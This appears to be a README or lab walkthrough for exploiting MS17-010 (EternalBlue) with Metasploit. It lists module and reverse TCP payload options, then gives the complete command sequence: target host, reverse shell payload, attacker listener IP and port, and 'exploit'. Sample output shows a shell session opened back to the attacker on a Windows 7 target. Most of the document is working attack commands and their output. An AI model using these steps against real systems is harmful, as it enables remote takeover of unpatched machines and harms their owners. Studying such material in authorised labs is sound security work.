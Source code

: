 
## ⚙️ Exploit Options (MS17-010 Example)

### Module Options
| Option       | Required | Description |
|--------------|----------|-------------|
| RHOSTS       | yes      | Target host(s) |
| RPORT        | yes      | Target port (default: 445) |
| SMBDomain    | no       | Windows domain |
| SMBUser      | no       | Username |
| SMBPass      | no       | Password |
| VERIFY_ARCH  | yes      | Check target architecture |
| VERIFY_TARGET| yes      | Check OS matches exploit |

### Payload Options (Reverse TCP)
| Option | Required | Description |
|--------|----------|-------------|
| LHOST  | yes      | Attacker IP (listener) |
| LPORT  | yes      | Listening port (default: 4444) |



## ▶️ Example Exploit Run
``` bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.12.229
set payload generic/shell_reverse_tcp
set LHOST 10.10.186.44
set LPORT 4444
exploit
```
### Sample Output
``` bash
[*] Started reverse TCP handler on 10.10.186.44:4444
[+] 10.10.12.229:445 - Host is VULNERABLE to MS17-010
[+] Exploit packet sent successfully
[+] Session opened: 10.10.12.229:49366 -> 10.10.186.44:4444

```

## 🖥️ Working with Sessions

### 1. List Active Sessions
``` bash
sessions
```
Output:
Id Name Type Information
1 - shell x64/win 10.10.12.229:49366 (Windows 7 SP1)

